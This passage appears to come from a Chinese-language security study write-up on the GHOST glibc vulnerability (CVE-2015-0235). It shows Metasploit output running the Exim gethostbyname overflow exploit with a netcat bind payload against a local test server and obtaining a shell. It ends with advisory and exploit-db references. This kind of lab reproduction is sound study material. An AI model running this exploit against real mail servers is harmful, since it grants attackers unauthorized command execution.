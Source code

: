 ```
Payload options (cmd/unix/bind_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  127.0.0.1        no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/smtp/exim_gethostbyname_bof) > exploit 

[*] Started bind handler
[*] 127.0.0.1:25 - Checking if target is vulnerable...
[+] 127.0.0.1:25 - Target is vulnerable.
[*] 127.0.0.1:25 - Trying information leak...
[+] 127.0.0.1:25 - Successfully leaked_arch: x64
[+] 127.0.0.1:25 - Successfully leaked_addr: 7fea43824720
[*] 127.0.0.1:25 - Trying code execution...
[+] 127.0.0.1:25 - Brute-forced min_heap_addr: 7fea438116cb
[+] 127.0.0.1:25 - Brute-force SUCCESS
[+] 127.0.0.1:25 - Please wait for reply...
[*] Command shell session 1 opened (127.0.0.1:34327 -> 127.0.0.1:4444) at 2018-01-26 17:29:07 +0800

whoami
Debian-exim
id
uid=115(Debian-exim) gid=125(Debian-exim) groups=125(Debian-exim)
```
Bingo!!!成功获得了一个反弹 shell。

对于该脚本到底是怎么做到的，本人水平有限，还有待分析。。。


## 参考资料
- [CVE-2015-0235 Detail](https://nvd.nist.gov/vuln/detail/CVE-2015-0235)
- [Qualys Security Advisory CVE-2015-0235](http://www.openwall.com/lists/oss-security/2015/01/27/9)
- [Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)](https://www.exploit-db.com/exploits/36421/)
- [Exim ESMTP 4.80 - glibc gethostbyname Denial of Service](https://www.exploit-db.com/exploits/35951/)
